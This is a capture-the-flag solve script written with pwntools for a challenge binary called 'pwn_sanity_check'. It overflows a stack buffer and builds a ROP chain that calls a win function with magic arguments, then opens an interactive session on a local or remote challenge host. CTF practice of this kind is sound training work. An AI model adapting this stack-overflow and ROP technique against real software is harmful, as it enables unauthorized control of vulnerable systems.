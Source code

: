 #!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./pwn_sanity_check')

if args.REMOTE:
    p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)
else:
    p = process(binary.path)

pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi_r15 = next(binary.search(asm('pop rsi; pop r15; ret')))

payload  = b''
payload += 0x48 * b'A'
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi_r15)
payload += p64(0x1337c0de)
payload += p64(0)
payload += p64(binary.sym.win)

p.sendlineafter('joke\n',payload)
p.interactive()

